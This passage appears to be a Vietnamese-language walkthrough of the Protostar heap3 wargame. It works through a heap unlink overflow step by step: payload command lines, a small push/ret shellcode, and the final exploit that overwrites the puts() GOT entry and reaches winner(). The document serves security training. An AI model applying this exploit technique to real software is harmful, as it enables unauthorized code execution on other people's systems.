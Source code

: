 Thử chạy payload

```
./heap3 `python -c 'print "AAAA"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x64\x88\x04\x08"'` D
```

Chúng ta nhận được lỗi `Segmentation fault`. Điều này xảy ra là do ta quên mất rằng `unlink` sẽ ghi đè hai lần, lần thứ hai là ghi `0x804b11c` vào `0x8048864` + 8 - Đây là phân vùng không cho phép ghi.

Chúng ta cần thay đổi đầu vào của mình sao cho khi ghi đến `P->bk + 8` là một nơi nào đó trong không gian địa chỉ bộ nhớ có thể ghi. Những gì chúng ta có thể làm là ghi đè `puts()` GOT bằng một vị trí trên heap có chứa một số shellcode có khả năng chuyển đến `winner()`.

```
push dword 0x8048864
ret
```

Chúng tôi biên dịch `shellcode` trên ra mã máy `\x68\x64\x88\x04\x08\xc3`, nó có 6 bytes nên khi `unlink()` ghi đến `P->bk + 8` sẽ không bị ghi đè shellcode và ghi nó vào phân bổ của `chunk` a - nơi cho phép ghi.

Giờ ta chạy thử:

```
root@protostar:/opt/protostar/bin# ./heap3 `python -c 'print "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x08\xc0\x04\x08"'` D
Illegal instruction
```

`Shellcode` bị ghi đè, ta nhớ lại 4 byte dữ liệu ban đầu cho mỗi `chunk` sẽ bị ghi đè khi `chunk` được giải phóng. Ở đây là `free(a)` đã ghi đè 4 byte đó nên ta sẽ thêm `AAAA` trước `shellcode` và cộng địa chỉ ghi lên 4.

Khai thác cuối cùng.

```
root@protostar:/opt/protostar/bin# ./heap3 `python -c 'print "AAAA\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'` D
that wasn't too bad now, was it? @ 1649095327
```

```
Khai thác heap thực sự rất phức tạp và khó nhưng nó thú vị.
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>


<http://phrack.org/issues/57/8.html>

<https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/>

<https://www.ayrx.me/protostar-walkthrough-heap/#heap-3>
